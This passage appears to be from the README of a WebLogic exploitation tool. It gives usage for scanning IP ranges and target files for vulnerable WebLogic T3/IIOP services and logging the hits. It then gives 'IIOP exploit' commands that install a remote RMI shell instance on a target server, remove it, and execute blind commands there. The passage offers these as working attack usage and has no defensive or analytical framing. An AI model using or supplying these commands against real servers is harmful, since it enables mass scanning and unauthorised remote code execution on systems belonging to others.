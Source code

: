 The default is to detect the weblogic version based on the results returned on port 7001, which can also be specified with the -version parameter.

ip segment scan:

```
java -jar weblogic_cmd_plus.jar -scanip 127.0.0.1/24 -scanport 7001 -scan -t 20
```

Get the list of scanned ip's by file.

The file format is as follows and will determine if it is https based on t3 and t3s.

```
#ip.txt
t3s://127.0.0.1:7010/
t3://127.0.0.1:7001/
t3://127.0.0.1:7002/
t3://127.0.0.1:7003/
t3://127.0.0.1:7004/
t3://127.0.0.1:7005/
t3://127.0.0.1:7006/
t3s://127.0.0.1:7008/
t3://127.0.0.1:7009/
```

```
java -jar weblogic_cmd_plus.jar -scanfile ip.txt -scan -t 20
```

Will write the results of the existence of vulnerabilities to the current directory Vulist.txt, T3 protocol port open log written to T3Port-open.txt, IIOP protocol port open log written to IIOPPort-open.txt

#### IIOP exploit

If the T3 port is open, the version is automatically detected, if it is closed, you need to specify the weblogic version with the -version parameter

```
#Install rmi instance
java -jar weblogic_cmd_plus.jar -H 127.0.0.1 -P 7001 -iiop -version 12.1.x/12.2.x/14.1.x -shell
#Uninstall rmi instance
java -jar weblogic_cmd_plus.jar -H 127.0.0.1 -P 7001 -iiop -version 12.1.x/12.2.x/14.1.x -U
#No echo command execution
java -jar weblogic_cmd_plus.jar -H 127.0.0.1 -P 7001 -iiop -version 12.1.x/12.2.x/14.1.x -B -C "touch /tmp/exploit"
```
